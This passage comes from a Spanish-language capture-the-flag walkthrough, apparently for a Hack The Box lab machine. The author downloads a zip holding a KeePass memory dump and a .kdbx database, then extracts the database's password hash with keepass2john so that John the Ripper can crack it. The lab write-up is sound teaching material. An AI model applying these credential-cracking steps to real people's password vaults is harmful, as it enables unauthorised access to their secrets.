 ```bash
wget http://10.10.11.227:8081/RT30000.zip
--2024-10-29 13:26:53--  http://10.10.11.227:8081/RT30000.zip
Conectando con 10.10.11.227:8081... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 87391651 (83M) [application/zip]
Grabando a: «RT30000.zip»

RT30000.zip                                   100%[================================================================================================>]  83,34M  13,9MB/s    en 8,8s    

2024-10-29 13:27:02 (9,52 MB/s) - «RT30000.zip» guardado [87391651/87391651]

md5sum RT30000.zip
c29f90dbb88d42ad2d38db2cb81eed21  RT30000.zip
```

- Una vez transferido vamos a descomprimirlo a ver que contiene

```bash
unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx          
❯ ls -la
drwxr-xr-x root root  88 B  Tue Oct 29 13:29:17 2024  .
drwxr-xr-x root root  52 B  Tue Oct 29 13:26:26 2024  ..
.rwxr-x--- root root 242 MB Wed May 24 10:51:31 2023  KeePassDumpFull.dmp
.rwxr-x--- root root 3.5 KB Wed May 24 10:51:11 2023  passcodes.kdbx
.rw-r--r-- root root  83 MB Tue Oct 29 13:26:01 2024  RT30000.zip
```

- Como podemos ver el archivo contiene una base de datos `.kdbx` lo que significa que es un archivo de `keepass` que esta protegido por una `password`, lo primero que se me ocurre viendo esto es extraer el `hash` de dicho fichero e intentar crackearlo con el uso de la herramienta `John`, os voy adelantando que no va a funcionar debido a que la contraseña no esta dentro del diccionario, pero se haría de la siguiente forma por si os interesa saberlo.

```bash
❯ keepass2john passcodes.kdbx > hash
❯ cat hash
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: hash
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ passcodes:$keepass$*2*60000*0*5d7b4747e5a278d572fb0a66fe187ae5d74a0e2f56a2aaaf4c4f2b8ca342597d*5b7ec1cf6889266a388abe398d7990a294bf2a581156f7a7452b4074479bdea7*08500fa5a52622
       │ ab89b0addfedd5a05c*411593ef0846fc1bb3db4f9bab515b42e58ade0c25096d15f090b0fe10161125*a4842b416f14723513c5fb704a2f49024a70818e786f07e68e82a6d3d7cdbcdc
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
